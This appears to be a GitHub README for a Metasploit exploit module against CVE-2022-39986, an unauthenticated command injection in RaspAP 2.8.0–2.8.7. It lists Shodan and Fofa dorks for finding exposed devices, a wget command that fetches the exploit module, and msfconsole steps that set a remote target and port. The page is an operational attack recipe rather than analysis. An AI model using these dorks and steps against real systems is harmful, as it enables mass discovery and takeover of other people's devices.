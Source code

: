 # CVE-2022-39986
![](https://img.shields.io/static/v1?label=Product&message=RaspAP&color=blue)
![](https://img.shields.io/static/v1?label=Version&message=2.8.0%20thru%202.8.7&color=brighgreen)
![](https://img.shields.io/static/v1?label=Vulnerability&message=CVSSv3:%209.8.%20Unauthenticated%20Command%20Injection&color=red)

- Shodan dork:
```
"RaspAP"
```
```
Raspbian WIFI
```
```
http.favicon.hash:316853479
```
- Fofa dork:
```
icon_hash="316853479"
```
### Install
```
wget https://raw.githubusercontent.com/getdrive/PoC/main/2022/RaspAp_RCE/raspap_rce.rb
```
```
cp  raspap_rce.rb /usr/share/metasploit-framework/modules/exploits/unix/http/
```
### Usage
```
msfdb reinit; msfconsole -q
```
```
use exploit/unix/http/raspap_rce
```
```
set RHOST [IP]
set RPORT [PORT]
check
```
